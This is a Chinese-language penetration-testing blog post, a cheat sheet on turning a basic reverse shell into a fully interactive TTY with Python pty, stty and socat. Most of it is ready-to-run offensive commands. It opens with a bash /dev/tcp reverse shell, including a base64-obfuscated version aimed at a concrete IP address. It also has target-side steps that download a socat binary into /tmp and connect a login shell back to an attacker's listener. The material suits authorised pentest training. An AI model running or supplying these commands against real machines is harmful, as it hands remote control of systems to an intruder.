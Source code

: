 +++
title = '为 Reverse Shell 添加 TTY'
date = 2024-04-21T18:11:44+08:00
draft = false
categories = ['小技巧']
tags = ['Pentest', 'TTY', 'Reverse Shell']

# SEO 相关元数据
keywords = ["Reverse Shell", "TTY", "交互式Shell", "渗透测试", "Linux终端", "Python PTY", "socat", "stty", "Shell升级", "网络安全"]
summary = "详细介绍如何将简单的 Reverse Shell 升级为具有完整 TTY 功能的交互式 Shell。包含 Python PTY、socat、stty 等多种方法，提供完整的命令参考和实操步骤。"

# 开放图谱协议 (Open Graph)
[params]
  og_title = "为 Reverse Shell 添加 TTY - Iselt Hack Tips"
  og_description = "学习如何升级 Reverse Shell 为完全交互式的 TTY Shell，掌握多种实用方法和技巧，提升渗透测试效率。"
  og_type = "article"
+++

## Reverse Shell Cheat Sheet

<https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet>

```bash
/bin/bash -c 'bash -i >& /dev/tcp/{ip}/{port} 0>&1'

echo L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzUyLjEzOS4xNTYuMzMvNDQ0NCAwPiYxJw== | base64 -d | bash
```

## Upgrading Simple Shells to Fully Interactive TTYs

<https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/>

## 交互式 shell

### 设置环境变量

```bash
export TERM=xterm-256color
```

### python pty

`dpkg -l | grep python`
`which python`
`whereis python`
查看是否有 python 环境

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

可以实现简单的 tty，但是这种方式有个问题，当我们 Ctrl+C 的时候，所有连接都会断掉，又需要重新来一遍，而且 vim 虽然可以用，也有点问题，同时没有记录，无法使用上方向键执行上条命令。

### Upgrading from netcat with magic

> 注意：这种方式只适用于 bash，不适用于 zsh

首先，使用Python生成一个PTY。一旦bash在PTY中运行，用 `Ctrl-Z` 将shell放到后台。

![20240405230443](https://cfproxy.iselt.top/https://raw.githubusercontent.com/iselt/ImageBed/main/20240405230443.png)

当 shell 处于后台时，现在检查当前终端和 STTY 信息，以便我们可以强制连接的 shell 与其匹配

![20240405230459](https://cfproxy.iselt.top/https://raw.githubusercontent.com/iselt/ImageBed/main/20240405230459.png)

所需信息是 TERM 类型（“xterm-256color”）和当前 TTY 的大小（“rows 38; columns 116”）

在仍然处于后台的情况下，现在将当前的STTY设置为原始类型，并使用以下命令告诉它回显输入字符:

```bash
stty raw -echo
```

使用原始的stty，输入/输出会看起来很奇怪，你看不到下一个命令，但当你输入时，它们会被处理。

使用 fg 将 shell 置于前台。它将重新打开反向 shell，但格式将会出错。最后，使用 reset 重新初始化终端。

![20240405230515](https://cfproxy.iselt.top/https://raw.githubusercontent.com/iselt/ImageBed/main/20240405230515.png)

注意：我没有再次输入 nc 命令（因为它可能看起来像上面）。我实际输入了 fg ，但没有回显。 nc 命令是当前正在前台运行的作业。然后在netcat shell中输入了 reset 命令

在 reset 之后，shell 应该再次看起来正常。最后一步是设置 shell、终端类型和 stty 大小，以匹配我们当前的 Kali 窗口（根据上面收集的信息）。

```bash
export SHELL=bash
export TERM=xterm256-color
stty rows 38 columns 116
```

最终结果是通过netcat连接实现的具有所有我们期望的功能的完全交互式TTY（包括制表补全、历史记录、作业控制等）。

### socat (only linux)

socat 是类 Unix 系统下的一个工具，可以看作是 nc 的加强版。我们可以使用 socat 来传递完整的带有 tty 的 TCP 连接。缺点也很明显，只能在 linux 下面运行

下载地址：<https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat>

使用起来也很简单。

攻击机：

```bash
# 首先安装
sudo apt install socat
# 执行
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

目标机：

```bash
# 把 socat 上传到目标机器上或者直接下载
# 64 位
wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat
#32 位
wget https://github.com/3ndG4me/socat/releases/download/v1.7.3.3/socatx86.bin -O /tmp/socat

#从攻击机下载
攻击机指令：python3 -m http.server 8888

# 运行
chmod +x /tmp/socat
/tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:IP:4444
```

这种方式基本和 ssh 类似，ctrl+C 也不会直接断开。

### 速查表

#### 使用Python进行伪终端

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

#### 使用 socat

```bash
#Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

#### 使用stty选项

```bash
# In reverse shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
echo $TERM
stty -a
stty raw -echo
fg

# In reverse shell
reset
export SHELL=bash
export TERM=xterm-256color
stty rows <num> columns <cols>
```
